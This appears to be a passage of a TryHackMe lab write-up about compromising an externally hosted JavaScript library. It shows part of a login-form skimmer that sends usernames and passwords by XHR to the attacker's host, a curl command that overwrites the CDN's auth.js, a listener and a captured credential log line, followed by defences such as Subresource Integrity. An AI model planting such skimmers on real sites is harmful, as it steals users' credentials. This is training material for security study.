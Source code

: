 ```javascript
                    return new Promise((resolve) => setTimeout(resolve, time));
                }
                sleep(5000).then(() => {
    		    document.getElementById("loginSubmit").click();
                });
	}
});
```

  

**Code explained**: Make sure to modify THM_IP to be the IP of your TryHackMe VPN or the AttackBox IP since we want callbacks to occur to this host. The injection is fairly simple. Once the user presses enter to submit their credentials, we make an XHR (XMLHTTPRequest) request to our host, where the username and password of the target are embedded as parameters in the request. You will notice some lines of code for the creation of a sleep function and then using said sleep function before the button is clicked. This is to ensure that the malicious XHR request has completed before the page transition occurs, otherwise a modern browser would stop the request from occurring.  

Let's overwrite the existing auth.js file with our embedded skimmer:

`curl http://cdn.tryhackme.loc:9444/libraries/auth.js --upload-file auth.js`  

We could host an entire server to receive the keystrokes, but let's keep it simple with a Python server:

`python3 -m http.server 7070`  

We can test if our skimmer is working by using the website ourselves. Complete the form and press enter after typing in your password, and you should intercept credentials:

`10.10.62.64 - - [10/Aug/2022 10:59:28] "GET /item?user=test&pass=test HTTP/1.1" 404 -`  

If this works, we now just need to wait for someone to authenticate! Give it 5 minutes, and you should intercept credentials from an actual user! Once you have intercepted the user's credentials, use them to authenticate to the website and recover the flag!  

Defences

It is difficult to defend against the attacks staged against external dependencies since there are so many and new vulnerabilities are found daily. However, there are certain things that we can do to limit the risk:

-   Make sure to update and patch dependencies on a regular basis. This would include emergency patching of dependencies if a sufficiently serious vulnerability was discovered.
-   Dependencies can sometimes be copied and hosted internally. This will reduce the attack surface.
-   Sub-resource Integrity can be used to prevent tampered JS libraries from loading. In the HTML include, the hash of the JS library can be added. Modern web browsers will verify the hash of the JS library, and if it does not match, the library will not be loaded.  
    

Answer the questions below

```javascript
Without adding to host and checking source code cannot access to auth.js

<html>
<body>


Hello there, please authenticate to this website
	<form action="auth.php" method="post">
		Username: <input id="txtUsername" type="text" name="username"><br>
		Password: <input id="txtPassword" type="password" name="password"><br>
		<input id="loginSubmit" type="submit">
	</form>

<script type="text/javascript" src="http://cdn.tryhackme.loc:9444/libraries/auth.js"></script>

```
